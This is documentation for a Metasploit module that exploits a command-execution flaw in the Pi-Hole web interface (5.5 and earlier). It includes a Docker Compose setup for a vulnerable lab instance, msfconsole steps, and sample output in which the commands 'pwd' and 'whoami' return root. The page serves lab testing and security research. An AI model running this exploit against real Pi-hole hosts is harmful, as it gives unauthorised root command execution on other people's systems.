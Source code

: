 ## Vulnerable Application

This exploits a command execution in Pi-Hole Web Interface <= 5.5.
The Settings > API/Web inetrace page contains the field
Top Domains/Top Advertisers which is validated by a regex which does not properly
filter system commands, which can then be executed by calling the gravity
functionality.  However, the regex only allows a-z, 0-9, _.

### Docker Compose

```
version: "3"

# More info at https://github.com/pi-hole/docker-pi-hole/ and https://docs.pi-hole.net/
services:
  pihole:
    container_name: pihole
    image: pihole/pihole:v5.5
    ports:
      #- "53:53/tcp"
      #- "53:53/udp"
      #- "67:67/udp"
      - "192.168.2.199:80:80/tcp"
    environment:
      TZ: 'America/Chicago'
      WEBPASSWORD: ''
    # Volumes store your data between container upgrades
    volumes:
      - './etc-pihole/:/etc/pihole/'
      - './etc-dnsmasq.d/:/etc/dnsmasq.d/'
    # Recommended but not required (DHCP needs NET_ADMIN)
    #   https://github.com/pi-hole/docker-pi-hole#note-on-capabilities
    cap_add:
      - NET_ADMIN
    restart: unless-stopped
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/admin/http/pihole_domains_api_exec`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get the output from the command.

## Options

### COMMAND

The command to run. This is VERY restrictive. Valid characters are `0-9`, `a-z`, `_`.
[Ref](https://github.com/pi-hole/AdminLTE/blob/v5.3.1/scripts/pi-hole/php/savesettings.php#L71). Defaults to `pwd`.

## Scenarios

### Pi-hole v5.2.4 with Web Interface 5.3.1 via Docker

```
[*] Processing pihole.rb for ERB directives.
resource (pihole.rb)> use auxiliary/admin/http/pihole_domains_api_exec
resource (pihole.rb)> set rhosts 192.168.2.199
rhosts => 192.168.2.199
resource (pihole.rb)> set verbose true
verbose => true
resource (pihole.rb)> run
[*] Running module against 192.168.2.199
[+] Web Interface Version Detected: 5.3.1
[*] Using token: YbGnWVA3ogVs0eLaKjEDGPaX8Zy1l5X3dxfHHSdy6r8=
[*] Sending payload request
[*] Forcing gravity pull
[+] /var/www/html/admin/scripts/pi-hole/php
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/pihole_domains_api_exec) > set command whoami
command => whoami
msf6 auxiliary(admin/http/pihole_domains_api_exec) > run
[*] Running module against 192.168.2.199

[+] Web Interface Version Detected: 5.3.1
[*] Using token: 9dtOO2bIndYSyJ1KsGYBa7pV5B4MToTQB1h2dmRfHk8=
[*] Sending payload request
[*] Forcing gravity pull
[+] root
[*] Auxiliary module execution completed
```
